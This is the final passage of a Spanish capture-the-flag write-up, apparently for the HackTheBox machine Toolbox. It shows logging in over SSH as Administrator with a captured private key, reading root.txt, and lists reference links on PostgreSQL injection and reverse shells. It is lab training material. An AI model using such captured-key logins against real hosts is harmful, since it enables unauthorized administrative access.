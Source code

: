 Copia la llave privada en un archivo en tu máquina y dale cambia sus permisos o si no no funcionará:
```bash
nano id_rsa

chmod 600 id_rsa
```

Ya por último, conéctate desde tu máquina, usando esa llave por el servicio **SSH**:
```bash
ssh -i id_rsa Administrator@10.10.10.236                             
The authenticity of host '10.10.10.236 (10.10.10.236)' can't be established.
ED25519 key fingerprint is SHA256:KJAib23keV2B8xvFaxg7e79uztryW+LYX+Wb2qA9u4k.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.236' (ED25519) to the list of known hosts.
Microsoft Windows [Version 10.0.17763.1039]
(c) 2018 Microsoft Corporation. All rights reserved.
 
administrator@TOOLBOX C:\Users\Administrator>whoami
toolbox\administrator
```

Excelente, la flag estará en el mismo lugar en donde la encontramos en el **Docker**:
```bash
administrator@TOOLBOX C:\Users\Administrator>cd Desktop
administrator@TOOLBOX C:\Users\Administrator\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 64F8-B588

 Directory of C:\Users\Administrator\Desktop

02/08/2021  11:39 AM    <DIR>          .
02/08/2021  11:39 AM    <DIR>          ..
02/08/2021  11:39 AM                35 root.txt
               1 File(s)             35 bytes
               2 Dir(s)   5,484,789,760 bytes free

administrator@TOOLBOX C:\Users\Administrator\Desktop>type root.txt
```
Listo, ya terminamos esta máquina.


<br>
<br>
<div style="position: relative;">
	<h2 id="Links" style="text-align:center;">Links de Investigación</h2>
</div>


* https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection
* https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql
* https://stackoverflow.com/questions/32646952/docker-machine-boot2docker-root-password
* https://www.revshells.com/
* https://help.dreamhost.com/hc/es/articles/360001435926-Instalar-OpenSSL-localmente-dentro-de-tu-usuario
